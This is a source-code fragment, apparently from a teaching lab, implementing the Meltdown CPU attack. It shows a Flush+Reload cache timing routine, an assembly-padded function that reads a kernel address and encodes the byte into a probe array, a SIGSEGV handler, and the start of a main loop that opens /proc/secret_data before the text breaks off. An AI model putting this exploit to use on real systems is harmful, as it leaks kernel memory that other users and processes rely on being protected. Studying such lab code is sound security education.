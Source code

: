 ```c=

static int scores[256];

void reloadSideChannelImproved()
{
  int i;
  volatile uint32_t *addr;
  register uint64_t time1, time2;
  uint32_t junk = 0;
  for (i = 0; i < 256; i++) {
     addr = (uint32_t*)&array[i * 4096 + DELTA];
     time1 = __rdtscp(&junk);
     junk = *addr;
     time2 = __rdtscp(&junk) - time1;
     if (time2 <= CACHE_HIT_THRESHOLD)
        scores[i]++; /* if cache hit, add 1 for this value */
  }
}
/*********************** Flush + Reload ************************/

void meltdown_asm(unsigned long kernel_data_addr)
{
   char kernel_data = 0;
   
   // Give eax register something to do
   asm volatile(
       ".rept 400;"                
       "add $0x141, %%eax;"
       ".endr;"                    
    
       :
       :
       : "eax"
   ); 
    
   // The following statement will cause an exception
   kernel_data = *(char*)kernel_data_addr;  
   array[kernel_data * 4096 + DELTA] += 1;              
}

// signal handler
static sigjmp_buf jbuf;
static void catch_segv(int a)
{
   siglongjmp(jbuf, 1);
}

int main()
{
   for (int k=0;k<10;k++){

      int i, j, ret = 0;
  
      // Register signal handler
      signal(SIGSEGV, catch_segv);

      int fd = open("/proc/secret_data", O_RDONLY);
      if (fd < 0) {
         perror("open");
         return -1;
      }
  
      memset(scores, 0, sizeof(scores));
```